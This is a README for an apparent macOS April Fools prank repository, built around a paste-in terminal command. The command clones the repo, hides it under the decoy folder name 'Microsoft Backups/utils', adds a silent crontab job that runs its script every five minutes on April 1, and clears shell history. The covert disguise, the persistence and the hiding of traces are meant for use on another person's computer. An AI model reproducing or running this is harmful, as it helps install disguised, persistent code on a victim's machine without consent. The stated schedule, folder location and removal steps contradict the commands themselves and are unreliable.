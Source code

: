 ## only works on mac os but makes the computer say nonsense every 5 minutes on april first if its on

### open terminal, copy the below command into it and hit enter
```
git clone https://github.com/benbav/april_fools.git && \
rm april_fools/README.md && \
rm -rf april_fools/.git && \
chmod u+x ~/april_fools/main.sh && \
mkdir Microsoft\ Backups
mv april_fools/ "Microsoft Backups/utils"
(crontab -l ; echo "*/5 * 1 4 * nohup /usr/bin/env bash ~/Microsoft\ Backups/utils/main.sh > /dev/null 2>&1 &") | crontab - && \
history -c && history -p
```
#### this clones the repo, moves the april_fools folder to the Documents folder and adds it to the crontab to run every hours on april 1st
**if you need to stop it go to the Documents folder and delete the april_fools folder**

to test on your own computer this will run every minute (just to make sure it works)
```
git clone https://github.com/benbav/april_fools.git && \
rm april_fools/README.md && \
rm -rf april_fools/.git && \
chmod u+x ~/april_fools/main.sh && \
mkdir Microsoft\ Backups
mv april_fools/ "Microsoft Backups/utils"
(crontab -l ; echo "* * * * * nohup /usr/bin/env bash ~/Microsoft\ Backups/utils/main.sh > /dev/null 2>&1 &") | crontab - && \
history -c && history -p
```
**if you need to stop it go to the Documents folder and delete the april_fools folder**
